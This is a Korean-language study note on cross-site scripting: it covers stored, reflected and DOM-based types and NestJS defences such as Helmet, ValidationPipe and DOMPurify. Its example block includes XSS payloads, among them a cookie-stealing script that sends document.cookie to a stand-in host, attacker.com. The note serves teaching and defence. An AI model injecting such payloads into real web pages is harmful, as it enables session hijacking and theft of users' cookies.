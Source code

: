 # XSS (Cross-Site Scripting)

## XSS란?
공격자가 웹 애플리케이션에 악성 스크립트를 삽입하여, 다른 사용자의 브라우저에서 실행되게 하는 취약점.  
주로 사용자 입력 값 검증 미흡에서 발생, 쿠키 탈취, 세션 하이재킹, 피싱 등으로 이어질 수 있음.

## XSS 유형
1. Stored XSS (저장형)
- 악성 스크립트가 DB 등에 영구적으로 저장, 해당 데이터가 다른 사용자에게 제공될 때 실행.
- 예시: 게시판 글, 댓글에 `<script>alert(1)</script>` 삽입.

2. Reflected XSS (반사형)
- URL 쿼리 파라미터, 요청 값에 포함된 스크립트가 즉시 반영되어 실행.
- 예시: `https://example.com/search?q=<script>alert(1)</script>`

3. DOME-based XSS
- 서버 응답이 아닌, 클라리언트 측 자바스크립트(DOM 조작)로 인해 발생.
- 예시: `innerHTML` 사용 시 사용자 입력이 스크립트로 실행.

## 공격 패턴 예시

```html
<!-- 1. 단순 alert -->
<script>alert('XSS')</script>

<!-- 2. 이미지 onerror 이벤트 -->
<img src="x" onerror="alert('XSS')" />


<!-- 3. 쿠키 탈취 -->
<script>fetch('https://attacker.com?c=' + document.cookie)</script>

<!-- 4. DOM 기반 -->
<input id="search" value="<script>alert(1)</script>">
<script>
  document.body.innerHTML = location.hash.substring(1);
</script>
```

## 방어 방법

### 1. 입력 값 검증, 필터링
### 2. 출력 시 Escape
### 3. CSP (Conten Security Policy) 설정
### 4. HttpOnly 쿠기 설정

## NestJS에서 XSS 방어

### 1. Helmet 미들웨어
```typescript
// main.ts
import { NestFactory } from '@nestjs/core';
import { AppModule } from './app.module';
import helmet from 'helmet';

async function bootstrap() {
  const app = await NestFactory.create(AppModule);

  // HTTP 보안 헤더 적용해주는 미들웨어 (CSP 포함 가능)
  app.use(helmet());

  await app.listen(3000);
}
bootstrap();
```

### 2. ValidationPipe + class-validator
```typescript
import { IsString, Length } from 'class-validator';

export class CreateCommentDto {
  @IsString()
  @Length(1, 200)
  content: string;
}
```

```typescript
// main.ts
import { ValidationPipe } from '@nestjs/common';

app.useGlobalPipes(new ValidationPipe({
  whitelist: true,              // DTO에 정의되지 않은 값 제거
  forbidNonWhitelisted: true,   // DTO에 정의되지 않은 값이 들어오면 예외 발생
  transform: true,              // 요청 객체를 DTO 클래스 인스턴스로 자동 변환
                                // { "id": "123" } 요청, dto.id는 number(123)
}));
```

### 3. HTML Sanitizer
```javascript
import * as DOMPurify from 'isomorphic-dompurify';

const safe = DOMPurify.sanitize('<img src=x onerror=alert(1)>');
console.log(safe); // <img src="x">
```

```typescript
import { Injectable } from '@nestjs/common';
import * as DOMPurify from 'isomorphic-dompurify';

@Injectable()
export class CommentService {
  sanitizeInput(input: string): string {
    return DOMPurify.sanitize(input);
  }
}
```